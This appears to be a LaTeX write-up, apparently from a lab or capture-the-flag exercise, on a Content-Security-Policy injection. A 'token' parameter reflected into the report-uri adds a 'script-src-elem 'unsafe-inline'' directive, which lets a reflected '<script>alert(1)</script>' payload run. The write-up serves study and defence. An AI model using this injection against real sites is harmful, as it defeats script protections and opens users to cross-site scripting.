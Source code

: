 \documentclass{article}
\begin{document}
\begin{itemize}
\textbf{Part 2: The injection}
\begin{itemize}
    \item \texttt{token=;script-src-elem 'unsafe-inline'}
    \item The semicolon \texttt{;} ends the current directive
    \item Then we add our own CSP directive
\end{itemize}

\section{How the Injection Works}

\subsection{Before Injection}
Original CSP:
\begin{lstlisting} [backgroundcolor=\color{gray!10}, frame=single]
Content-Security-Policy: 
  default-src 'self';
  script-src 'self';
  report-uri /csp-report?token=default_value
\end{lstlisting}

\subsection{After Injection}
Modified CSP:
\begin{lstlisting} [backgroundcolor=\color{gray!10}, frame=single]
Content-Security-Policy: 
  default-src 'self';
  script-src 'self';
  report-uri /csp-report?token=;script-src-elem 'unsafe-inline'
\end{lstlisting}

The browser sees this as:
\begin{itemize}
    \item \texttt{report-uri /csp-report?token=} (incomplete but harmless)
    \item \texttt{script-src-elem 'unsafe-inline'} (NEW DIRECTIVE WE ADDED)
\end{itemize}


\subsection{The Chain of Events}
\begin{enumerate}
    \item \textbf{We inject} our CSP directive allowing inline scripts
    \item \textbf{The page reflects} our \texttt{<script>alert(1)</script>} payload
    \item \textbf{Browser checks CSP} - sees inline scripts are now allowed
    \item \textbf{Script executes} - alert box pops up!
\end{enumerate}



\end{itemize}
\end{document}
